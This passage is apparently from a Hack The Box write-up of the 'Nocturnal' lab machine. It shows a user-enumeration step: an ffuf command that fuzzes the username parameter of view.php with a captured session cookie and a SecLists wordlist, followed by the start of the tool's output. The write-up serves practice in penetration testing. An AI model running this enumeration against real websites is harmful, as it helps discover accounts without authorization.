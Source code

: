 This is an interesting observation and could be a way to enumerate the users of this website.

# Foothold

##### User enumeration

For the fuzzing, we need 3 things:
- target url containing parameter for the usernames
- our current phpsessionid (cookie)
-  wordlist for usernames

0. From earlier, we have the target url:
`http://nocturnal.htb/view.php?username=ch3ckm8&file=accounts.xlsx`

1. Use burp to grab your phpsessid, in order to perform user enumeration (via interception of the request)
![Pasted image 20250529003653](MediaFiles/Pasted%20image%2020250529003653.png)

2. For the wordlist, i used this one from SecLists:
https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt
and used `FUZZ` keyword on the ffuf command to enumerate users, on the file i specified a random filename and the filename wont matter for the fuzzing process:

```shell
ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=sth.xlsx' -w /root/Downloads/names.txt -H 'Cookie: PHPSESSID=ucd01moit7qaem6bddb8bm1a8n' -fs 2985
```

output

```shell
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=accounts.xlsx
 :: Wordlist         : FUZZ: /root/Downloads/names.txt
 :: Header           : Cookie: PHPSESSID=ucd01moit7qaem6bddb8bm1a8n
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
```